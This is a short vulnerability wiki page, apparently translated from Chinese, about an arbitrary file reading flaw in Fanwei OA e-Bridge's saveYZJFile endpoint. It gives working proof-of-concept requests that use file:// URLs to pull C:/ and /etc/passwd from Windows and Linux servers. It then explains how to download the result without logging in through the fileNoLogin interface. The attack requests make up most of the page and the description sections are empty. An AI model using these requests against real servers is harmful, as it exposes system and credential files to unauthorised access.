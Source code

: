 # Panwei OA E-Bridge saveYZJFile arbitrary file reading vulnerability

## Vulnerability Description



## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fanwei Cloud Bridge e-Bridge 2018-2019 Multiple Versions</span>

## Network surveying and mapping



## Vulnerability reappears

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-1.png)



Successfully returned `id value`, indicating that this vulnerability is contained


</a-alert>
<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-2.png)



### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-3.png)



Successfully returned `id value`, indicating that this vulnerability is contained

Call the view file interface to access `/file/fileNoLogin/id value`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-4.png)